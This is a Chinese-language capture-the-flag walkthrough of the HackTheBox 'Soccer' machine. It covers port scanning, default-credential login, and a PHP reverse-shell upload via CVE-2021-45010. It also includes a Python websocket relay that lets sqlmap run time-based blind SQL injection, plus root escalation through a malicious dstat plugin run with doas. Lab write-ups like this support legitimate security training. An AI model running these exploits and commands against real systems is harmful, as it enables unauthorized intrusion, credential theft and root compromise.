

# 信息枚举

## ports

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 21:34 CST
Nmap scan report for 10.10.11.194
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

## 版本扫描

```
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                             
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)                    
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)

80/tcp   open  http            nginx 1.18.0 (Ubuntu)                           
|_http-title: Did not follow redirect to http://soccer.htb/                         
|_http-server-header: nginx/1.18.0 (Ubuntu)

9091/tcp open  xmltec-xmlmail?             
| fingerprint-strings:                     
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda,                     informix:                                
|     HTTP/1.1 400 Bad Request             
|     Connection: close                   
|   GetRequest:                           
|     HTTP/1.1 404 Not Found               
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff     
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 18 Mar 2025 13:34:35 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 18 Mar 2025 13:34:36 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>

```


## 漏洞扫描

```

```

# web

## 80

访问web页面，重定向到soccer.htb，在/etc/hosts中加入DNS记录

```
echo '10.10.11.194 soccer.htb' >> /etc/hosts
```

成功访问web页面之后，gobuster扫目录


访问之后是个登录界面，访问相关链接是个git.io，里面有使用说明，找到默认密码

```
admin:admin@123
```


有版本号，搜索相关漏洞，发现cve-2021-45010,可以上传php，上传php的shell

```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

本地监听得到shell

在/etc/nginx/sites-available发现子域名soc-player.soccer.htb


添加DNS解析记录

```
echo '10.10.11.194 soc-player.soccer.htb' >> /etc/hosts
```

访问以后得到的页面有注册登录接口，注册一个新用户登录之后是个检测ticket是否存在的功能，查看源码发现是与9091端口创建websocket连接




### sql注入

尝试抓包，发送正常的id只会返回ticket存在，尝试进行sql注入


没有返回sql语句，只能进行盲注

#### python脚本转发Websocket,使用Sqlmap注入

原贴：

```
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

该脚本将在8081端口上创建一个HTTP服务并获取GET参数值，将该参数值转换为json，然后与websocket服务器创建连接然后发送

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('127.0.0.1',8081))
except KeyboardInterrupt:
	pass
```

需要修改ws_server和data参数

需要安装websocket-client

```
pip3 install websocket-client
```

然后在本地运行脚本开启转发，使用sqlmap进行注入,已经知道是盲注了，直接指定注入方法为时间注入

```
sqlmap -u "http://127.0.0.1:8081/?id=1" --batch --dbs -p id --technique T --exclude-sysdbs
```


```
player:PlayerOftheMatch2022
```


# 提权

使用ssh连接

查看suid权限，有doas，这是sudo的替代，默认配置文件在`/usr/local/etc/doas.conf`


查看配置文件，可以不输密码以root权限运行dstat


dstat有个功能就是提供了用户自定义插件的能力，既然用户可以自定义，那么当这个命令可以被sudo调用时，且插件目录可写的时候，就可以利用插件进行提权

经过查询文档，dstat命令的插件主要在一下两个位置保存：

```
 /usr/share/dstat/
 /usr/local/share/dstat/
```

可以自定义脚本，写入运行bash会话

```python
import os

os.system("/bin/bash")
```

<font color=red>脚本的命名格式`dstat_xxx.py`</font>

使用doas来调用这个插件，即可得到root权限

```
doas /usr/bin/dstat --shell
```

